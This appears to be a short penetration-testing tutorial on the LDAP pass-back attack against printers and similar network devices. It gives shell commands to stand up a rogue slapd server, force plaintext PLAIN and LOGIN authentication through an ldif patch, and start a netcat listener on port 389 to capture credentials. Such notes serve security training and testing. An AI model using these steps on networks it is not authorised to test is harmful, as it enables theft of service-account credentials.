 # LDAP Attacks

## Pass-back Attack

- This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device

**Attack Method**

- **Host a Rogue LDAP Server**
  - `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
  - `sudo dpkg-reconfigure -p low slapd`
  - Create a new `olcSaslSecProps.ldif` file to make LDAP only support PLAIN and LOGIN authentication methods. Put the following content in the new file:
  ```
  #olcSaslSecProps.ldif
  dn: cn=config
  replace: olcSaslSecProps
  olcSaslSecProps: noanonymous,minssf=0,passcred
  ```
  - Use the new ldif file to patch your rogue LDAP
    `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`
  - Verify configuration was applied to LDAP
    `ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms`
    
- Start a Netcat listener (default LDAP port is 389)
  `nc -nlvp 389`
